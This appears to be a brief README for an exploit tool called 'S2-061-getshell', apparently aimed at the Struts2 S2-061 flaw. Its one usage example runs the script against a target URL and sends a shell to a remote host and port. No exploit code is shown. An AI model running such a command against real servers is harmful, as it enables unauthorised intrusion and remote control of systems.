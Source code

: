 # S2-061
S2-061 getshell
 Example:
       S2-061-getshell.py -u http://127.0.0.1:8080  -r 10.0.0.1 -p 3306 
       
